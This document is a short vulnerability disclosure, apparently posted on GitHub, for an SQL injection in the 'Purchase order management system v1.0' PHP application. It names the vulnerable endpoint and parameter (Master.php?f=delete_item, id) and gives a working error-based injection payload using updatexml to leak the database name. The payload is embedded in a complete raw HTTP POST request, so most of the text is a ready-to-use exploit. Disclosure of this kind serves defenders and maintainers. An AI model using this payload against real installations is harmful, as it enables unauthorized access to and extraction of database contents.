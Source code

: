 # Purchase-order-management-system v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability File: \purchase_order\classes\Master.php?f=delete_item 

Vulnerability location: /purchase_order/classes/Master.php?f=delete_item, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

```sql
POST /purchase_order/classes/Master.php?f=delete_item HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/purchase_order/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=sils4jibq9sp4e2n7i4joq8to7
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```
![image](https://user-images.githubusercontent.com/54017627/160136532-39cd815f-d3de-4d65-91c6-8726f67768fb.png)
